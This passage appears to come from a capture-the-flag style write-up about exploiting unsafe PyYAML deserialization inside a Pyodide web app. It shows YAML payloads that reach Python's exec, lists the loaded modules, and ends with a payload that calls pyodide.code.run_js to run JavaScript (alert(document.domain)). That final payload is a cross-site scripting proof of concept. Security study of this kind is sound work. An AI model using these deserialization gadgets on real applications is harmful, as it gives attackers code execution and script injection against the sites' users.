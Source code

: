 Umm... It doesn't work... It returned `-1`, which means it failed to execute the command. I couldn't figure out why, properly it's because Pyodide's [Emscripten](https://emscripten.org/) doesn't allow us to execute arbitrary commands? Anyway, our goal is to execute arbitrary Python code.

Now, I wonder what modules are imported into Pyodide... To enumerate that, we can just print out `sys.modules`:

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "print(sys.modules)"
```

Result:

```python
{'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, [...] 'yaml.cyaml': <module 'yaml.cyaml' from '/lib/python3.12/site-packages/yaml/cyaml.py'>, 'yaml': <module 'yaml' from '/lib/python3.12/site-packages/yaml/__init__.py'>}
```

There are lots of modules. There are 2 loaded modules stood out the most:

```python
{[...], 'pyodide': <module 'pyodide' from '/lib/python312.zip/pyodide/__init__.py'>, 'pyodide.code': <module 'pyodide.code' from '/lib/python312.zip/pyodide/code.py'>, [...]}
```

Huh? We can use JavaScript Pyodide to execute Python Pyodide??

According to [Pyodide Python API documentation](https://pyodide.org/en/stable/usage/api/python-api.html), the **[pyodide.code](https://pyodide.org/en/stable/usage/api/python-api/code.html#module-pyodide.code) module allows us to evaluate Python and JavaScript code**. Hmm? We can run JavaScript?

In module `pyodide.code` [function `run_js`](https://pyodide.org/en/stable/usage/api/python-api/code.html#pyodide.code.run_js), it said:

> A wrapper for the [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval "(in MDN docs)") function.
>  
> Runs `code` as a Javascript code string and returns the result. [...]

Let's try to execute arbitrary JavaScript via function `run_js`!

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "print(__import__('pyodide').code.run_js('alert(document.domain)'))"
```
